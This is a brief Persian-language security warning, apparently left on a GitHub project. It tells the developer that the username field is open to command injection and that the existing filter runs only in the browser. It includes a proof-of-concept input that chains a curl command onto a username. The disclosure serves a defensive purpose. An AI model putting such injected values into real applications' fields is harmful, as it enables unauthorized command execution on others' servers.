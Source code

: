 قبلا گفتم دوباره هم میگم
فردا نگی کسی بهم نگفت مشکل امنیتی داره !

فیلد نام کاربر باگ Command Injection dare
alireza && curl  https://github.com/ > /tmp/aa.txt

اون فیلتری که گذاشتی هم فقط از طریق browser هست , فقط clientSide

فیلتر بزار روش حتما !

t.me/hasood
